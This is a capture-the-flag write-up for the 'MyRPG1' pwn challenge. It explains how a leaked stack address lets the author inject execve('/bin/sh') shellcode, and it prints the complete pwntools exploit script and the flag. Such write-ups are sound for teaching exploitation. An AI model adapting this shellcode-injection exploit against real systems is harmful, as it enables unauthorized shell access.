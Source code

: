 # MyRPG1

## Category  
Pwn

## Description  
I'm developing a small RPG — maybe you can verify if it is secure?

You're given a binary named `myrpg`, and access to a remote service:

```
nc myrpg1.challenges.cybersecuritychallenge.be 1337
```

## Files Provided  
- `myrpg` (64-bit ELF binary)

## Write-up  

After launching the binary, I found a basic menu interface. One of the menu options leaks a stack address:

```
> 2
Please wait...
Here is an address: 0x7ffe91e3c5f0
```

This address is critical — I can use it to jump to injected shellcode.

### Exploitation Strategy

1. Use option `2` to leak a stack address.
2. Craft a shellcode for `execve("/bin/sh")`, aligned with some NOP padding and the leaked return address.
3. Inject the payload using option `1`, which allows arbitrary input.
4. Trigger execution via option `4`.

### Exploit Script

```python
#!/usr/bin/env python3

from pwn import *
context.terminal = ["tmux", "splitw", "-h"]

encode = lambda e: e if type(e) == bytes else str(e).encode()
hexleak = lambda l: int(l[:-1] if l[-1] == b'\n' else l, 16)
_base_ = lambda a: a[0].split(':') if ':' in a[0] else a
parse = lambda a: _base_(a[2:] if (a and a[1] == 'nc') else a[1:])

def attach(_input: bool = False):
    if args.GDB:
        gdb.attach(io, "b *new_game+461")
        if _input: input("Continue?")

exe = "./myrpg"
elf = context.binary = ELF(exe)
libc = elf.libc
io = remote(*parse(sys.argv)) if args.REMOTE else process(argv=[exe], aslr=True)

attach()

def menu(idx):
    io.sendlineafter(b"> ", encode(idx))

# Start game to enable interaction
menu(1)

# Leak stack address
log.info("Waiting for leak....")
menu(2)
io.recvuntil(b"address : ")
stack = hexleak(io.recvline().strip())
log.info(f"stack @ {hex(stack)}")

# Send payload
menu(1)
shellcode = asm("""
    /* execve("/bin/sh", 0, 0) */
    lea rdi, sh[rip]
    xor rsi, rsi
    xor rdx, rdx
    mov rax, 0x3b
    syscall
    /* exit(0) */
    xor rdi, rdi
    mov rax, 0x3c
    syscall
sh: .string "/bin/sh"
""").ljust(56, b"\x90")
payload = shellcode + p64(stack)

log.info("Writing payload...")
menu(payload)

# Trigger shell
log.info("Waiting for return...")
menu(4)

io.interactive()
```

## Result

This grants a shell on the remote server when connected via `nc`.

## Flag  
```
CSC{cr1t1c4l_succ355}
```
